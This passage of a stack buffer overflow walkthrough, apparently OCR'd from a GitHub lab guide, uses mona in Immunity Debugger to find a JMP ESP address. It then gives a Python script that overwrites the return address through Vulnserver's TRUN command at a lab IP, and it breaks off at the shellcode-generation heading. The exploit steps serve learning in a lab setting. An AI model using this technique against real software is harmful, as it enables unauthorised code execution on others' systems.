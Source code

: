 #### Windows 10:
In Immunity Debugger the search bar at the very bottom type:
```
!mona find -s “\xff\xe4” -m <name of the DLL or module>
you will get back a list of return addresses. Start with one that shows false for all the memory protection. 
```

#### Kali Linux:
create python script overflow.py

```
#!/usr/bin/python

import sys, socket

# 625011af    <==return address from mona in Immunity Debugger 
shellcode = "A" * 2003 + "\xaf\x11\x50\x62"     # adding the return address in little Endian format used for x86 arch

while True:
    try: 
            s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
            s.connect(('192.168.1.90',9999))                    #change to match the IP and port# of the application you are fuzzing

            s.send(('TRUN /..:/' + shellcode))                     #change TRUN to be the command you are Fuzzing
            s.close()

    except: 
            print "Error connecting to Server."
            sys.exit()
```

#### Windows 10:
In Immunity, go back to the main screen and click bluish black arrow at the top

should pop up a window saying expression to follow. Type in the register from before: 

625011af

hit ok

In the upper left window it should show our jump point at the top, like so:

625011AF  FFE4		JMP ESP

Hit F2, this will set a break point and change the 625011AF blue

hit play and go back to Kali and run overflow.py, when you come back to Immunity you should see Breakpoint at essfunc.625011AF


## Generating the Shell Code:
